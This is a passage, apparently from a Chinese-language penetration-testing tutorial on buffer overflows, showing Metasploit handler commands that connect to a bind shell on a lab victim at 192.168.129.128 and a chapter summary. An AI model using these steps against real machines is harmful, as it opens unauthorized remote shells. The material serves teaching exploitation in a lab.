 我们的 Shellcode 正在运行，正在等待连接。让我们回到攻击机器，设置处理程序以连接到受害者机器：

```
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/shell_bind_tcp
$ set rhost 192.168.129.128
$ run
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00283.jpeg)

已在`session 2`上建立连接：

```
 $ session 2
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00284.jpeg)

成功了！

# 总结

至此，我们了解了缓冲区溢出攻击在 Linux 和 Windows 上的工作原理。此外，我们知道如何利用堆栈溢出。

在下一章中，我们将讨论更多的技术，例如如何定位和控制指令指针，如何找到有效负载的位置，以及更多的缓冲区溢出攻击技术。